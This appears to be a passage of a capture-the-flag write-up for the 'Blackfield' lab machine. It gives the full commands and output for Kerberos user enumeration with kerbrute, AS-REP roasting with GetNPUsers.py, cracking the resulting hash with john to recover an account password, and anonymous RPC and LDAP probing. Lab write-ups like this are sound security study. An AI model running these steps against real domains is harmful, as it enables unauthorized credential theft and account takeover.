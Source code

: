 ## Kerberos
Enumerating users with kerbrute gives:
```bash
$ kerbrute userenum -d BLACKFIELD.local /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc `IP`

2021/06/13 21:48:25 >  [+] VALID USERNAME:       support@BLACKFIELD.local
2021/06/13 21:50:08 >  [+] VALID USERNAME:       guest@BLACKFIELD.local
2021/06/13 22:01:31 >  [+] VALID USERNAME:       administrator@BLACKFIELD.local
```
Checking for AS-REP Roasting for those users:
```bash
$ GetNPUsers.py 'BLACKFIELD.local/' -usersfile users -dc-ip `IP` -format john -outputfile hashes.asreproast

Impacket v0.9.22.dev1+20200819.170651.b5fa089b - Copyright 2020 SecureAuth Corporation

[-] User guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set

$ cat hashes.asreproast
$krb5asrep$support@BLACKFIELD.LOCAL:c6be395079288cc668713586d1b73ac8$fb919022470062fb3e1c2cfe14b7f01d7a807217bdb5a0034e7bda691a1b3395f64198949092850a91dc1ba7d41f587b37bab4effd398c5d27c4850f7d8112adba0f5eb695fccee61ba4dd18042e34ea3ff3cddc69aea3dc938a9d179b41f0bc5bcee695aad9631dd36d7b1e8d42d0f01c4e03f345901414f02af2501ba1353e16bb6cc9384b5e70fa8fe7b7e2f9724f022a17e6133342b66447cf98dae2ba353374cb26661894c631cf06a557ca9dbc8312d8a0618a4c7398b5e0f2669708e12e1e559a4a3066bb0e64b9688404de7059249048020d9df19420988901018b7065d3a9d9e54147edc65b8e4a5b425b8003c89948

$ john hashes.asreproast -w:/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
#00^BlackKnight  ($krb5asrep$support@BLACKFIELD.LOCAL)
Session completed
```

## RPC
`enum4linux` didn't give any good results.
anonymous login is possible but rpcclient doesn't give access-denied for most of it. 
```bash
$ for i in $(cat rpc-command-list);do echo Running $i;rpcclient -U "" -N `IP` -c "$i";echo;done  | grep -iv 'error\|denied\|usage'
```

## LDAP
Anonymous login in ldap doesn't give much info.
```bash
$ ldapsearch -h `IP` -x -b "DC=BLACKFIELD,DC=local" | tee ldap-anonymous
# extended LDIF
#
# LDAPv3
# base <DC=BLACKFIELD,DC=local> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A69, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v4563

# numResponses: 1
```